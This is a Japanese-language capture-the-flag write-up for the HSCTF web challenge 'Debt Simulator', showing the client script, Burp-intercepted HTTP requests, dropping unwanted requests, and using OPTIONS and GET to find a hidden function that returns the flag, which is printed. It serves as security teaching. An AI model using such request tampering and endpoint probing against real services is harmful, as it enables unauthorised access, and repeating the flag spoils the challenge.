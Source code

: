 # Debt Simulator

100pt (579 Solves)

```txt
https://debt-simulator.web.hsctf.com/

Author: Madeleine
```

## 概要

![Debt Simulator](../img/Debt_Simulator.png)

運試し的な感じ。ボタンを押すと、お金が貰える/お金を払う。  
$-1000に到達すると負け、$2000に到達すると勝ち。  
以下のjsコードを読めばわかると思うが、まぁ普通にやってたら勝てない

```js
const onClick = () => {
    const isGetCost = Math.random() > 0.4 ? true : false;
    const func = isGetCost ? 'getCost' : 'getPay';
    const requestOptions = {
      method: 'POST',
      body: 'function=' + func,
      headers: { 'Content-type': 'application/x-www-form-urlencoded' }
    }

    fetch("https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001", requestOptions)
    .then(res => res.json())
    .then(data => {
      data = data.response;
      if (buttonText === "Play Again" || buttonText === "Start Game") {
        setButtonText("Next Round");
        setRunningTotal(0);
      }
      setMessage("You have " + (isGetCost ? "paid me " : "received ") + "$" + data + ".");
      setRunningTotal(runningTotal => isGetCost ? runningTotal - data : runningTotal + data);
    });
}
```

Burpで通信を見てみる。

```txt
> POST /yolo_0000000000001 HTTP/1.1
> Host: debt-simulator-login-backend.web.hsctf.com
    :
> function=getPay

---------------------------------------------------

< HTTP/1.1 200 OK
    :
< {"response":2}
```

お金が貰えるのは`getPay`、減るのは`getCost`になる。  
どちらのリクエストでもレスポンスは同じ形式で、数字だけ変わる。  
とりあえず勝利目指そうとしてBurpで`getCost`の通信を`getPay`に書き換えてみたが、  
上記のjsコードの通り計算自体は手元でされているので、書き換えたところでマイナスされる。

「`getCost`のリクエスト自体をなかったことにしてしまえばいいんじゃね？」と思い、  
BurpでDropしたら上手く消せた。`getPay`をSend、`getCost`をDropを繰り返してると  
`You won. You have more than $2000. Try your luck again?`と言われる。flagはない。

## 解

OPTIONでリクエストを送ってみると、GETができるらしい。

```txt
> OPTIONS /yolo_0000000000001 HTTP/1.1
> Host: debt-simulator-login-backend.web.hsctf.com
    :
---------------------------------------------------
< HTTP/1.1 200 OK
    :
< Allow: GET,POST,HEAD
```

GETリクエストを送る。

```txt
> GET /yolo_0000000000001 HTTP/1.1
> Host: debt-simulator-login-backend.web.hsctf.com
    :
---------------------------------------------------
< HTTP/1.1 200 OK
    :
< {
<   "functions":[
<       "getPay",
<       "getCost",
<       "getgetgetgetgetgetgetgetgetFlag"
<   ]
< }
```

今まで使ってた`getPay`と`getCost`の他に、  
`getgetgetgetgetgetgetgetgetFlag`なるものがあるらしい。
POSTしてみる。

```txt
> POST /yolo_0000000000001 HTTP/1.1
> Host: debt-simulator-login-backend.web.hsctf.com
    :
> function=getgetgetgetgetgetgetgetgetFlag
---------------------------------------------------
< HTTP/1.1 200 OK
    :
< {"response":"flag{y0u_f0uND_m3333333_123123123555554322221}"}
```

flagが手に入った。

```txt
flag{y0u_f0uND_m3333333_123123123555554322221}
```
